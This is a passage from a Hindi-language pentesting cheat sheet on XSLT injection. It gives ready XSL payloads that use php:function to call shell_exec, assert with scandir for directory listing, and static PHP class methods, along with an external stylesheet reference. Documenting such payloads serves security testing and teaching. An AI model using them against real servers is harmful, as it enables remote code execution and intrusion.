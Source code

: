 ```markup
<?xml version="1.0" ?>
<?xml-stylesheet type="text/xsl" href="http://external.web/ext.xsl"?>
```
## कोड को निष्पादित करें

### **php:function**
```markup
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="php:function('shell_exec','sleep 10')" />
</xsl:template>
</xsl:stylesheet>
```

```markup
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body style="font-family:Arial;font-size:12pt;background-color:#EEEEEE">
<xsl:copy-of name="asd" select="php:function('assert','var_dump(scandir(chr(46).chr(47)));')" />
<br />
</body>
</html>
```
अन्य फ्रेमवर्क का उपयोग करके कोड को पीडीएफ में निष्पादित करें

### **अधिक भाषाएँ**

**इस पृष्ठ पर आप अन्य भाषाओं में RCE के उदाहरण ढूंढ सकते हैं:** [**https://vulncat.fortify.com/en/detail?id=desc.dataflow.java.xslt\_injection#C%23%2FVB.NET%2FASP.NET**](https://vulncat.fortify.com/en/detail?id=desc.dataflow.java.xslt\_injection#C%23%2FVB.NET%2FASP.NET) **(C#, जावा, PHP)**

## **कक्षाओं से PHP स्थिर फ़ंक्शनों तक पहुंचें**

निम्नलिखित फ़ंक्शन कक्षा XSL के स्थिर विधि `stringToUrl` को बुलाएगा:
```markup
<!--- More complex test to call php class function-->
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl"
version="1.0">
<xsl:output method="html" version="XHTML 1.0" encoding="UTF-8" indent="yes" />
<xsl:template match="root">
<html>
<!-- We use the php suffix to call the static class function stringToUrl() -->
<xsl:value-of select="php:function('XSL::stringToUrl','une_superstring-àÔ|modifier')" />
<!-- Output: 'une_superstring ao modifier' -->
</html>
</xsl:template>
</xsl:stylesheet>
```
(उदाहरण [http://laurent.bientz.com/Blog/Entry/Item/using\_php\_functions\_in\_xsl-7.sls](http://laurent.bientz.com/Blog/Entry/Item/using\_php\_functions\_in\_xsl-7.sls) से)

